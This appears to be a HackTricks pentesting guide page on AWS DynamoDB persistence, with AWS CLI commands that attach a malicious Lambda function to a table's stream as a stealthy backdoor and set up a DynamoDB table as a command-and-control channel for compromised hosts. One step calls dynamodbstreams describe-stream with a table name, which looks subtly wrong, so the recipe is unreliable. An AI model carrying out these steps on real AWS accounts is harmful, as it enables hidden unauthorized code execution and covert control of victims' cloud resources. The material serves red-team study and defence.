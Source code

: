 # AWS - DynamoDB Persistence

{{#include ../../../banners/hacktricks-training.md}}

### DynamoDB

For more information access:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### DynamoDB Triggers with Lambda Backdoor

Using DynamoDB triggers, an attacker can create a **stealthy backdoor** by associating a malicious Lambda function with a table. The Lambda function can be triggered when an item is added, modified, or deleted, allowing the attacker to execute arbitrary code within the AWS account.

```bash
# Create a malicious Lambda function
aws lambda create-function \
    --function-name MaliciousFunction \
    --runtime nodejs14.x \
    --role <LAMBDA_ROLE_ARN> \
    --handler index.handler \
    --zip-file fileb://malicious_function.zip \
    --region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
    --table-name TargetTable \
    --region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
    --function-name MaliciousFunction \
    --event-source <STREAM_ARN> \
    --region <region>
```

To maintain persistence, the attacker can create or modify items in the DynamoDB table, which will trigger the malicious Lambda function. This allows the attacker to execute code within the AWS account without direct interaction with the Lambda function.

### DynamoDB as a C2 Channel

An attacker can use a DynamoDB table as a **command and control (C2) channel** by creating items containing commands and using compromised instances or Lambda functions to fetch and execute these commands.

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
    --table-name C2Table \
    --attribute-definitions AttributeName=CommandId,AttributeType=S \
    --key-schema AttributeName=CommandId,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --region <region>

# Insert a command into the table
aws dynamodb put-item \
    --table-name C2Table \
    --item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
    --region <region>
```

The compromised instances or Lambda functions can periodically check the C2 table for new commands, execute them, and optionally report the results back to the table. This allows the attacker to maintain persistence and control over the compromised resources.

{{#include ../../../banners/hacktricks-training.md}}





